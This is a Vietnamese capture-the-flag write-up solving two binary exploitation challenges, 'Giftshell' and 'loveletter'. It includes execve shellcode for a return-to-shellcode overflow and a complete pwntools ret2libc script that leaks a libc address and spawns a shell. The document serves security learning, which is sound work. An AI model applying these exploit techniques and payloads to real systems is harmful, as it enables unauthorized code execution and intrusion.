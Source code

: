  
 
 
### 1. Giftshell
**Tóm tắt đề :**

1 file giftshell để chạy trên linux 

**Ý tưởng:**
- Đầu tiên mình sài IDA để decompile
![](https://i.imgur.com/TBsp4PM.png)
- Nhận thấy có lỗi buffer overflow do biến `buf` khai báo có 112 byte mà nhập tới 128 byte, cùng với việc đề leak địa chỉ biến `buf` ra ở `printf` thì khá chắc chắn là lỗi return to shellcode
- Vậy ta sẽ sử dụng địa chỉ biến `buf` bị leak để ret về đó, từ địa chỉ biến buf trở về sau chính là shell code của ta.
- Do mình lười nên lên mạng chép mã assembly để lấy shell, ở đây mình lên dreamhack để lấy.



    mov rax, 0x68732f6e69622f
    push rax
    mov rdi, rsp  ;
    xor rsi, rsi  ;
    xor rdx, rdx  ; 
    mov rax, 0x3b ;
     syscall ;
    
- Phần padding còn lại mình fill bằng byte `\x90` tức là `nop` trong assembly x86.
- Kế tiếp ta vào gdb để tìm offset cho ret. Ở đây ta được 120. 
![](https://i.imgur.com/9KcRPR0.png)
- Tiếp theo ta tìm số bytes của shellcode. Chạy script dưới ta được số byte là 29.
![](https://i.imgur.com/NPr8ND5.png)
- Do đó thứ tự payload sẽ là 29 byte shellcode, 91 byte nop và cuối cùng là 8 byte địa chỉ để ret vào. Vậy giờ ta sẽ viết script để viết ý tưởng trên. 
![](https://i.imgur.com/zFMHWrS.png)
- Chạy script trên ta đã lấy được shell.

### 2. loveletter
**Tóm tắt đề :**
- 1 file source 
- 1 file dockerfile
- 1 file docker-compose 

**Ý tưởng :**
- Đầu tiên mình decompile bằng IDA.
![](https://i.imgur.com/zflRfBI.png)
- Ta thấy control flow của chương trình như sau : chạy hàm loveletter -> yêu cầu nhập -> chạy hàm doubt -> nếu chọn Y thì sẽ set buffer cho biến `v1`, còn không thì chưa rõ do không khai báo.
- Tới đây ta cần phân tích rõ thứ tự các biến trong stack để coi có ghi đè được biến `v1` không vì khi đó ta sẽ tuỳ ý chọn số byte để nhập.
- Ta nhận thấy biến `v1` của hàm `loveletter` tức là mảng `buff[MAX_BUFFER + 69]` trong source và biến v1 của hàm `doubt` gần nhau. Ta có phân tích như sau:
![](https://i.imgur.com/xxLXtTB.png)
- Khi ta nhập full byte của biến `buf` trong hàm `loveletter` rồi chuyển qua hàm `doubt`, do biến `v1` không khai báo nên sẽ nhận giá trị ở vị trí `rsp+0xC` (stack không clear sau khi thực hiện xong hàm). Ta sẽ lợi dụng điều này để lấy shell.
- Do EX đã tắt và đây là file ELF 64 bit nên ta sẽ làm theo dạng return2libc 64bit
![](https://i.imgur.com/DUobQxU.png)
- Do đây là dạng cơ bản nên ta chỉ cần tìm gadget của từng phần viết script.
![](https://i.imgur.com/4ZQeiY2.png)
- Kết hợp tất cả thông tin rồi ta sẽ viết được script này

'''

    from pwn import *
    
    context.binary = exe = ELF('./main', checksec=False)
    libc = ELF('libc.so.6', checksec=False)
    p = process(exe.path) 
    p.sendafter(b'> ', b'A'*4000) 
    p.sendafter(b'> ', b'A'*2969)
    
    p.recvuntil(b'?\n')
    p.sendafter(b'> ', b'Y')
    payload = b'A'*264
    pop_rdi = 0x00000000004014b3
    payload += p64(pop_rdi) + p64(exe.got['puts'])
    payload += p64(exe.plt['puts'])
    payload += p64(exe.sym['main'])
    
    p.recvuntil(b'w.\n')
    p.sendafter(b'> ', payload)
    p.recvuntil(b'!\n')
    libc_leak = u64(p.recv(6) + b'\x00\x00')
    libc.address = libc_leak - libc.sym['puts']
    
    p.sendafter(b'> ', b'A'*4000) 
    p.sendafter(b'> ', b'A'*2969)
    p.recvuntil(b'letter?\n')
    p.sendafter(b'> ', b'Y')
    
    ret = 0x000000000040101a
    payload = b'A'*264 + p64(ret)
    payload += p64(pop_rdi) + p64(next(libc.search(b'/bin/sh')))
    payload += p64(libc.sym['system'])
    p.recvuntil(b'now.\n')
    p.sendafter(b'> ', payload)
    p.interactive()
    
'''

- Chạy thử và ta sẽ có được shell.
